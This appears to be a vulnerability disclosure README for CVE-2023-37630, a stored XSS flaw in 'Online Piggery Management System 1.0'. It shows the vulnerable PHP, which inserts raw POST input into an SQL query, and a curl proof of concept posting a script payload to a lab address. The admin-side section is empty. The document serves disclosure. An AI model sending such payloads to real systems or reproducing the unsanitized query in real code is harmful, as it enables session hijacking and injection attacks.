

# CVE-2023-37630

```
Product : Online Piggery Management System - 1.0
Vulnerability Type : Cross Site Scripting (XSS)
Vendor of Product : Create Network NG

Desc : An unauthenticated user or an attcker can POST javascript code to "manage-breed.php". The code gets executed whenever an authenticated user visits "manage-breed.php"
```

## Vulnerable Code
```php
// manage-breed.php
if(isset($_POST['submit'])){
	$name = $_POST['breed'];
	$query = $db->query("INSERT INTO breed(name)VALUES('$name')");
```

# POC
## Attacker side

```bash
curl -s http://192.168.56.101/pig/manage-breed.php -d "breed=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit="
```

## Admin side
